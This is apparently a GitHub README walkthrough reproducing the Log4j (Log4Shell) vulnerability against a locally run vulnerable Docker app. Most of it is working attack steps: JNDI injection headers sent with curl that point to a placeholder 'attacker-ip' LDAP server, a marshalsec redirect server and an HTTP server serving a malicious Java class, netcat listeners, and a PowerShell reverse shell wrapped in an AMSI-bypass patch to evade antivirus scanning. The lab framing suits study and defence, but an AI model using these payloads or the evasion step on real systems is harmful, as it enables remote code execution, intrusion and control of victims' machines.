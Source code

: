 # Log4j Vulnerability

## Author

### Kevin Doolaeghe

## Reference

* [Java - Apache Log4j 2 Library](https://logging.apache.org/log4j/2.x/)
* [LunaSec - RCE 0-day exploit POC](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [John Hammond Log4j Proof Of Concept Video](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1481s)
* [`leonjza` Github Repository - Log4j POC](https://github.com/leonjza/log4jpwn)
* [`xiajun325` Github Repository - Log4j POC](https://github.com/xiajun325/apache-log4j-rce-poc)
* [`christophetd` Github Repository - Log4j POC](https://github.com/christophetd/log4shell-vulnerable-app)
* [Github - Powershell Reverse Shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

## Initial Log4j POC (Proof Of Concept)

* Build Docker container running vulnerable Java application :
```
git clone https://github.com/leonjza/log4jpwn
cd log4jpwn
sudo docker build -t log4jpwn .
```

* Launch the vulnerable Java application :
```
sudo docker run --rm -p8080:8080 log4jpwn
```

* Create a `netcat` listener to see the result of the request :
```
nc -lnvp 3333
```

* Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://attacker-ip:3333/a}' localhost:8080
```

Replace `attaquer-ip` by the IP address of the malicious server.  
The vulnerable Java application connects to the `netcat` listener on port `3333`.

## Remote Code Execution (RCE)

* Compile `Log4jRCE.java` file :
```
javac Log4jRCE.java
```

* Create HTTP server with Python in the directory that store `Log4jRCE.class` file :
```
python3 -m http.server 5555
```

* Build LDAP server (require Java 8) :
```
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

* Launch the LDAP server with the correct redirection to the HTTP server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker-ip:5555/#Log4jRCE"
```

* Keep the previous vulnerable Java application alive :
```
sudo docker run --rm -p8080:8080 log4jpwn
```

* Send poisonned request to server :
```
curl -H 'X-Api-Version: ${jndi:ldap://attacker-ip:1389/Log4jRCE}' localhost:8080
```

Once the `curl` request is recieved, the target will connect to the LDAP server and run the `Log4jRCE` Java class file.

## Reverse shell attack

* Create `netcat` listener to receive the access to the reverse shell :
```
nc -lnvp 3333
```

* Get [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) Powershell script and edit the IP address and the port to match with the target.

* Then, go on [AMSI.fail](https://amsi.fail/) wbesite and copy a `Rasta-mouses Amsi-Scan-Buffer patch`. Encode the previous Rasta-mouses patch followed by the Powershell script into Base64 thanks to a [Powershell encoder](https://raikia.com/tool-powershell-encoder).

* Adapt the code in `Log4jRCE.java` file to run the corresponding command then compile :
```
javac Log4jRCE.java
```

With the LDAP server running, start JNDI injection to the target to establish a reverse shell connection through `netcat`.